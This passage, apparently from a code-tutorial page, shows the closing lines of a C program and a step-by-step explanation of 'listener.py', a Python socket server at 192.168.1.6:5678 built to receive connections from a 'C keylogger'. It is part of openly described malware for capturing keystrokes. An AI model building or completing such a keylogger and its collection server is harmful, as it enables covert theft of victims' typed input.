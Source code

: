 ```c
    }

    WSACleanup();
    return 0;
}
```

# *Part 2 - listener.py*

#### How Does This Work?

##### Part 2 - Listener Server

---

1. **Imports and Setup**

```python
import sys
import socket
import selectors
import types
```

* **sys**: For system-related functions (not explicitly used but common).
* **socket**: To handle network connections.
* **selectors**: Efficient I/O multiplexing to handle multiple connections.
* **types**: To create a simple namespace object for storing connection-specific data.

---

2. **Create a Selector Object**

```python
sel = selectors.DefaultSelector()
```

* Creates a selector object to monitor multiple sockets for I/O readiness without blocking.

---

3. **Define Server IP and Port**

```python
HOST = '192.168.1.6'  # IP address to bind the server socket to
PORT = 5678           # Port number to listen on
```

* Matches the IP and port configured in the C keylogger to ensure connection compatibility.

---

4. **Set up Listening Socket**

```python
lsock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
lsock.bind((HOST, PORT))
lsock.listen()
print(f'Listening on {(HOST, PORT)}')
lsock.setblocking(False)
sel.register(lsock, selectors.EVENT_READ, data=None)
```
